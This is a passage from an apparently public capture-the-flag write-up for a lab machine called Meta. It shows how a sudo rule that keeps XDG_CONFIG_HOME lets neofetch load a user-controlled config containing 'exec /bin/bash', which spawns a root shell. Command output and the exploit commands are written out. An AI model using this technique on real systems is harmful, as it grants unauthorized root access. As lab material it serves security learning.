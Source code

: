 What's that **`env_keep+=XDG_CONFIG_HOME`**??

When the Sudo command is being ran, **it'll keep the environment variable `XDG_CONFIG_HOME` to the Sudo command**!

And what's that environment variable `XDG_CONFIG_HOME`?

> There is a single base directory relative to which user-specific configuration files should be written. This directory is defined by the environment variable `$XDG_CONFIG_HOME`. (From [https://specifications.freedesktop.org/basedir-spec/basedir-spec-latest.html](https://specifications.freedesktop.org/basedir-spec/basedir-spec-latest.html))

**In `thomas`'s home directory, we found the `.config` directory:**
```shell
thomas@meta:~$ ls -lah
total 36K
drwxr-xr-x 5 thomas thomas 4.0K Aug 16 05:35 .
drwxr-xr-x 3 root   root   4.0K Aug 29  2021 ..
lrwxrwxrwx 1 root   root      9 Aug 29  2021 .bash_history -> /dev/null
-rw-r--r-- 1 thomas thomas  220 Aug 29  2021 .bash_logout
-rw-r--r-- 1 thomas thomas 3.5K Aug 29  2021 .bashrc
drwxr-xr-x 3 thomas thomas 4.0K Aug 30  2021 .config
drwxr-xr-x 3 thomas thomas 4.0K Aug 16 05:35 .local
-rw-r--r-- 1 thomas thomas  807 Aug 29  2021 .profile
drwx------ 2 thomas thomas 4.0K Jan  4  2022 .ssh
-rw-r----- 1 root   thomas   33 Aug 16 02:49 user.txt
```

**Inside there, there's a neofetch's configuration file:**
```shell
thomas@meta:~$ ls -lah .config/neofetch/
total 24K
drwxr-xr-x 2 thomas thomas 4.0K Aug 16 05:36 .
drwxr-xr-x 3 thomas thomas 4.0K Aug 30  2021 ..
-rw-r--r-- 1 thomas thomas  15K Aug 30  2021 config.conf
```

**Then, according to [GTFOBins](https://gtfobins.github.io/gtfobins/neofetch/#sudo), we can escalate our privilege escalation using the `--config` option:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Meta/images/Pasted%20image%2020230816175031.png)

Hmm... **Maybe we can export the `XDG_CONFIG_HOME` environment varible, and execute any commands as root via our evil neofecth's configuration file??**

- Export `XDG_CONFIG_HOME` environment varible:

```shell
thomas@meta:~$ export XDG_CONFIG_HOME="$HOME/.config"
```

- Overwrite the original configuration file:

```shell
thomas@meta:~$ echo 'exec /bin/bash' > .config/neofetch/config.conf 
```

This will spawn a new Bash shell.
